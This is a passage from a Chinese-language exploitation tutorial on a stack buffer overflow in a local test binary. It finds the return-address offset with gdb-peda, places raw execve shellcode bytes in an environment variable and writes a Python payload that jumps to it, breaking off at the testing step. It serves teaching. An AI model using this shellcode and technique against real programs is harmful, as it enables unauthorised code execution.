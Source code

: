 程序停在了`ret`指令的地方，因为覆盖返回地址的是一串无意义的值，无法进行跳转，上一步操作将`rbp`（寄存器）的值拷贝到`rsp`（寄存器）中，导致`rsp`指向了存储返回地址的栈空间，通过查看`rsp`指向的栈的数据，可以算出返回地址在栈中，相距未读入数据时栈顶的偏移量。

```
gdb-peda$ x/wx $rsp
0x7fffffffdd08:	0x44414128
```

可以看出原本存放返回地址的的栈上现在存放的是`0x44414128`

用`pattern_offest`计算偏移量

```
gdb-peda$ pattern_offset 0x44414128
1145127208 found at offset: 24
```

OK，偏移量为24，也就是说输入值的前24个字节是任意的（注意不要存在`\x00`之类的字节，可能会导致读入终止），接在后面存入8个字节的地址，就能够实现跳转。

## 0x03确定shellcode的地址

因为选择的`shellcode地址`为27字节，前面的填充数据要用24字节，合起来超过40字节，无法写入，不如将包含`shellcode`的指令放入系统环境，用于测试

```
export PWN=`python -c 'print"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

用`getenvaddr`来确定`PWN`变量对`test`输入的地址

```
$ export PWN=`python -c 'print"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
$ ./getenvaddr PWN ./test
PWN will be at 0x7fffffffed03
```

得到地址`0x7fffffffed03`

## 0x04编写Payload

用python的struct模块写payload的话很方便

```python
from struct import *
buf = 'A' * 24 + pack('<Q',0x7fffffffed03)
f = open('a.txt', 'w')
f.write(buf)
f.close()
```

`pack`函数用来处理数据很方便：）

`pack(format,var0,var1...)`按照给定的格式(format)，把后面数据封装成字符串，`<`是按照小端序，`Q`是无符号的八字节整数

## 0x05测试

通过管道的方式输入文件的数据

